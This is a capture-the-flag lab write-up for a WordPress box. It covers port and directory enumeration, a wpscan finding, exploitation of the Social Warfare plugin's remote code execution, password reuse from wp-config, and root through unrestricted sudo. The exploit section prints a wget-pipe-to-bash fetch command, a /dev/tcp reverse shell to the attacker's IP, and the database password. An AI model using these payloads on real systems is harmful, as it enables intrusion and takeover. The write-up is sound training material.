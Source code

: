 # Enumeration
As always, Starting with nmap.
```bash
Nmap scan report for 192.168.166.123
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Looking at results, we have port 22 and 80 open.

## Port 80
The site just a had a message,
```
remember: your goal is not just to get root shell, your goal is to read root.txt is part of the challenge. Have fun! :D
```
Running *ffuf* for directory brute-forcing.
```bash
ffuf -u http://192.168.166.123/FUZZ -w /usr/share/wordlists/dirb/big.txt -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.166.123/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 57, Words: 10, Lines: 3]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 322, Words: 20, Lines: 10]
```

We found a directory named `/wordpress`. Browsing the directory reveals as simple wordpress site.
![image](https://user-images.githubusercontent.com/43528306/124246794-dc92de00-db3e-11eb-9ad2-e22485108322.png)


### Wordpress
Now we have to enumerate the wordpress site. The best tool for this task in our arsenal is `wpscan`. Running wpscan against our target
```bash
...[snip]...

[i] Plugin(s) Identified:

[+] social-warfare
 | Location: http://192.168.166.123/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2021-05-17T19:38:00.000Z
 | [!] The version is out of date, the latest version is 4.2.1
 |
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618
 |      - https://www.webarxsecurity.com/social-warfare-vulnerability/

...[snip]...
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.166.123/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 
...[snip]...
```
Looking at the results, we saw one of the plugin `social-warfare` used is vulnerable to RCE. Wpscan also provided us with references to explore more about the  vulnerability.

## Expoiting
From the [blogpost](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618), we can use the following steps to exploit it.
- We need to host a file containing our payload.
- Visit `<target>/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://<Attacker>/payload.txt`

And we'll get the results. Using this we can get reverse shell.

#### Reverse Shell
We'll host our payload file using python http server with a single command `python3 -m http.server 8080`. 
```php
// Our payload file
<pre>
system('wget -O - http://192.168.49.166:8080/shell.sh | bash')
</pre>
```
Here, In our paylaod file we are making a GET request to our box again, asking for `shell.sh`, and instead of writing it to disk, 
we are directly piping it to bash which results in execution of the contents.


##### Content of Shell.sh 
```bash
bash -c "bash -i >& /dev/tcp/192.168.49.166/9991 0>&1"
```

## Shell as www-data
We got shell as `www-data`.
```bash
www-data@wpwn:/var/www/html/wordpress/wp-admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Checking the `wp-config` file, we got a potential password.
```php
define( 'DB_NAME', 'wordpress_db' );                                                                                                                                     
                                                                                                                                                                         
/** MySQL database username */
define( 'DB_USER', 'wp_user' );
                                          
/** MySQL database password */     
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );
                                                                                    
/** MySQL hostname */                                                               
define( 'DB_HOST', 'localhost' );
```
As there was a single user on the box `takis`, we can use this password and it worked. We got shell as *takis*

## Shell as Takis
Checking privileges of takis.
```bash
takis@wpwn:~$ sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
```
We were allowed to run every command as root. Here we can easily switch to root using `sudo -s`.
```bash
takis@wpwn:~$ sudo -s
root@wpwn:/home/takis# id
uid=0(root) gid=0(root) groups=0(root)
```

ROOT!!
